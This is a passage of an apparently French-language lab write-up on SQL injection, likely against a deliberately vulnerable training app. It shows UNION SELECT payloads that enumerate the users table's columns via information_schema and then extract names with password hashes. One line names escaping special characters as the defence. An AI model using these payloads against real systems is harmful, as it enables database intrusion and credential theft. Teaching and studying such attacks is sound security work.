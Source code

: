 ```
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: password

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: avatar

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: last_login

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: failed_login

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: CURRENT_CONNECTIONS

ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #
First name: users
Surname: TOTAL_CONNECTIONS
```

Une nouvelle fois, utilisation d'une méthode permettant de remplacer les
caractères spéciaux pour se protéger d'une telle attaque.

### Comment récupérer les mot de passes des utilisateurs ?

```
' UNION SELECT first_name, password FROM users #
```

Résultat :

```
ID: ' UNION SELECT first_name, password FROM users #
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' UNION SELECT first_name, password FROM users #
First name: AMRI
Surname: daffa4d4fb0ed21485b8e7f38ea37bae

ID: ' UNION SELECT first_name, password FROM users #
First name: BOUCHER
Surname: 6db94f074138a64e94f2ce0a2da24ff4

ID: ' UNION SELECT first_name, password FROM users #
First name: GILBERT
Surname: 703d37fe043b504093cd759418249c6d

ID: ' UNION SELECT first_name, password FROM users #
First name: GODIN
Surname: 3c78feb1cf7001094dfdc6ddc6e7ba0e

ID: ' UNION SELECT first_name, password FROM users #
First name: HENRY
```
